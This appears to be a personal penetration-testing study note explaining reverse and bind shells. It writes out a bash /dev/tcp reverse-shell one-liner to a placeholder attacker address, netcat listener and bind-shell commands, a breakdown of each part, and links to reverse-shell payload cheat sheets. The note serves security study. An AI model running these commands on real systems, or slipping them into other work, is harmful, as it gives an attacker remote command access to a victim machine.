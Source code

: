 ```

		░██     ░██            ░██ ░██                   ░██                
		░██     ░██            ░██ ░██                                      
		░██     ░██  ░███████  ░██ ░████████   ░███████  ░██░█████████████  
		░██████████ ░██    ░██ ░██ ░██    ░██ ░██    ░██ ░██░██   ░██   ░██ 
		░██     ░██ ░█████████ ░██ ░██    ░██ ░█████████ ░██░██   ░██   ░██ 
		░██     ░██ ░██        ░██ ░██    ░██ ░██        ░██░██   ░██   ░██ 
		░██     ░██  ░███████  ░██ ░██    ░██  ░███████  ░██░██   ░██   ░██

```


# What are shells?
---

Shells are what we use when we interact with command-line interfaces (CLI), such as bash, and zsh on linux, and Powershell on Windows. 

When targeting remote systems we can sometimes force an app running on the server to execute arbitrary code.

We want to then use this initial access to run a shell on the target.

We can trick the remote server to send us CLI access to the server (reverse shell),
Or to open up a port on the server which we can connect to (bind shell)

## Reverse shells vs Binding shells
---

### Reverse Shells

- Victim connects to attacker
- used to bypass firewalls that block incoming connections
- Example: ```bash -i >& /dev/tcp/(attacker_ip)/attacker_port 0>&1``` on the target machine, then run ```nc -lvnp (port_number)```

**Breaking down the commands**

 1️⃣ `bash -i`

- `-i`: **interactive mode**
    
- Starts an interactive bash shell so it behaves like a real terminal. 
---
 2️⃣ `>&/dev/tcp/(attacker_ip)/(attacker_port)`

- `/dev/tcp/` is a **special Bash feature**:
    
    - When you reference `/dev/tcp/IP/PORT`, Bash opens a TCP connection to that host/port.
        
- `>&`: redirects **both stdout and stderr** to that connection.  
    📡 So all the command output goes over the network to the attacker.
---
 3️⃣ `0>&1`

- `0>` Means **stdin** (keyboard input).
    
- `&1`: ties stdin to stdout (the TCP socket).  
    📥 This makes your attacker’s keystrokes get sent into the shell.

---
🏴‍☠️ **Effect**

The attacker can listen on the specified port and run commands on the victim box as if they're logged in

### Binding Shells
---
- Attacker connects to victim
- Example: `nc -l -p port` on the victim machine and then `nc attacker_ip port`

## General requirements 
--- 
In order to generate shells we need two things:

- Malicious code to generate the shell
- And a way to interface with the shell resulting from the code

## Common Tools
---
### 1 - Netcat

Netcat is used to perform all kinds of network interactions, like banner grabbing during enumeration, but it can also be used to receive reverse shells and connect to remote ports generated and attached to bind shells on the target system 

### Pros
- Easy Syntax
- Preinstalled on most linux distros
### Cons
- very unstable
- can be improved by certain techniques
---
### 2- Socat

Socat is exactly like Netcat but it can establish more stable shells

### Pros
- Incredible stability
- More features 

### Cons
- Difficult syntax
- Very rarely installed on distros
---
### [3 - MsfVenom](Muspelheim.md#MsfVenom)

--- 
### [4 - Multi/Handler](Muspelheim.md#Multi/Handler)



## Great online resources
---
### [Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) / [Internal All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

A curated guide to internal network penetration testing, covering Active Directory exploitation, privilege escalation, lateral movement, and post-exploitation techniques. Perfect for red teamers operating inside corporate environments. Great for finding shell code.

---
### [Reverse Shell Cheatsheat](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

A compact collection of ready-to-use reverse shell payloads for a variety of languages and tools, including Bash, Python, PHP, and Netcat. Essential for quickly gaining command-line access during exploitation and post-exploitation phases.

---
